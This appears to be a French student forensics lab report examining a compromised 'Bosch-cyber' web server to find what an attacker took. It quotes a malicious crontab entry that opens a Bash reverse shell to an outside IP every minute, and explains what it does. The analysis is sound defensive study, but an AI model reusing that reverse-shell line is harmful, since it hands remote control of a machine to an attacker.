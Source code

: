 # Rapport d'analyse

### Préparation

Pour intervenir dans ce cas, au préalable il faudra valider certains points de sécurité :

- [x] La station blanche est prête à accueillir l'élément à analyser.

- [x] La station blanche sur laquelle nous effectuons l'analyse est coupé de tout réseau.

- [x] La station blanche sur laquelle nous effectuons l'analyse est coupé de tout périphérique externe.

- [x] L'analyse de la machine s'effectue sur un clone virtuel de l'environnement de production.



### Introduction

Le site web Bosch-cyber a été attaqué. l'attaquant aurait récupéré des outils secrets très dangereux. Heureusement l'administration a mis le site eb maintenance. 

###### La mission : déterminer ce qui a été exfiltré par l'attaquant.

### Méthodologie

Dans cette partie seront données les manières d'analyser l'environnement qui hébèrge le site web Bosch-cyber. 


### Résultats

dans cette commande :

![Alt text](https://github.com/LuKieru/FORENSIC_TP_BOURGEOIS_LUCAS/blob/main/TP03/img/history.png "cat_hosts_passwd.png")

on voit qu'il y a un fichier .zip qui a été protégé par un mot de passe "bosch_cyber_tools.zip"
ce mot de passe peut etre lu depuis "/tmp/mypassword"


>unzip bosch_cyber_tools.zip 

demande un ==mot de passe==

> cat /etc/hosts

172.18.0.2

>cat /var/www/html/index.html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Maintenance Bosch-Cyber</title>
</head>
<body>
    <p>Sorry for the inconvenience. We'e performing some issues at the moment. We'll be back up shortly!</p>
</body>
</html>
```


>cat .cache/
cat .bash_history 
cat .bash_logout 
cat .bashrc 
cat .profile 
cat .viminfo 
>cat .cache/

rien

>cat crontab

*/1 * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/138.66.89.12/4444 0>&1'

tache planifiée :
Il s'agit d'une tâche planifiée appelée Cron job, qui est exécutée sur un système Unix.

Le Cron job est configuré pour s'exécuter toutes les minutes (*/1 * * * *). Il exécute la commande /bin/bash -c '/bin/bash -i >& /dev/tcp/138.66.89.12/4444 0>&1'.

Cette commande ouvre un shell Bash et redirige son entrée/sortie vers un socket réseau. Plus précisément, elle envoie toute la sortie standard au socket réseau à l'adresse IP 138.66.89.12 et au numéro de port 4444, et elle envoie toute l'entrée standard depuis le socket réseau vers le shell Bash.

Ceci semble être une tentative de créer un shell inversé vers une machine distante à l'adresse IP et au numéro de port spécifiés. Il est important de noter que de telles actions peuvent être illégales et potentiellement nocives. Il est recommandé de enquêter et de remédier à de telles activités sur un système.

>cat access.log | grep "138.66.89.12"

résultat en image
